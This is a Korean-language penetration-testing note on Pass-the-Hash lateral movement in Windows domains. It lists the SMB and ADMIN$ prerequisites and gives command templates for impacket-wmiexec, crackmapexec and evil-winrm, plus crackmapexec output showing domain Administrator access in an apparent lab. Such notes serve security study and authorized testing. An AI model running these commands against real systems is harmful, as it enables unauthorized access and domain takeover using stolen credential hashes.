참고로 PtH 는 정상적인 인증 방법이라 이를 취약점이라 적는 실수를 범하면 안된다. PtH를 하기 위해선 아래 조건이 필요하다.

- 방화벽을 통한 SMB 연결 (445) (**기업 환경에서 일반적**)
- 파일 및 프린터 공유 기능 활성화 (**기업 환경에서 일반적**)
- **ADMIN$** 사용 가능해야 함

**Impacket-wmiexec (kali) - wmic 이용**
```powershell
# Impacket 툴들의 "-hashes" 플래그 사용 
impacket-wmiexec domain.com/user@targetFQDN <command> -hashes '<LM:NT>'
```

**crackmapexec (kali) - psexec 이용**
```powershell
# CME 의 -H 플래그 사용 
crackmapexec smb <FQDN/IP> -u <user> -H <NThash> -d <domain> 

cme smb 192.168.40.150 -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe -d choi.local                                  
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\\Administrator:2b576acbe6bcfda7294d6bd18041b8fe (Pwn3d!)

cme smb 192.168.40.150 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe -d choi.local 
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\\Administrator:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe (Pwn3d!)
```

**evil-winrm (kali) - winrm 이용**
```powershell
# WinRM을 이용한 패스 더 해시
evil-winrm -i <ip> -u <user> -H <NThash> 
```